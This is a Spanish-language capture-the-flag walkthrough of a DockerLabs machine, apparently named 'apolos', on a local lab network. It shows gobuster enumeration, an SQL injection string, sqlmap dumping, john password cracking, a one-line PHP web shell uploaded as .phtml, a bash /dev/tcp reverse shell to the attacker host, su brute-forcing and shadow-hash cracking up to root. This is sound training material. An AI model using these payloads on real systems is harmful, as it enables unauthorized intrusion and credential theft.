 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![image](https://github.com/user-attachments/assets/44e2f0c3-bf79-4eac-9182-06d47ccae654)

![image](https://github.com/user-attachments/assets/dba385cc-25fd-47ed-8789-fb7a1b457b55)


dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![image](https://github.com/user-attachments/assets/7ef3f704-d534-4c2f-9331-bbeffbfb11e3)

voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![image](https://github.com/user-attachments/assets/1a34f523-8919-41b2-bd7e-7af4cda97399)

ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![image](https://github.com/user-attachments/assets/13406494-f292-40af-aac2-0c5114932387)

creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![image](https://github.com/user-attachments/assets/61bfdc72-9ddf-4c67-b2ce-ef75e2229252)

cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![image](https://github.com/user-attachments/assets/dbdd29ef-b39f-4204-8cab-cb6743b931fb)


creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![image](https://github.com/user-attachments/assets/114eb20f-49a2-41da-972e-0dcc6c9736cb)


después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![image](https://github.com/user-attachments/assets/4838956b-d829-4f38-9ccf-d648e30600fe)


ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![image](https://github.com/user-attachments/assets/c912d156-c0ec-4817-bc93-2bcdda680262)

entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![image](https://github.com/user-attachments/assets/1ae3b8e7-bd61-4ef4-8e9a-b3002a5a56ed)


nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![[contraseña1.png]]
nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
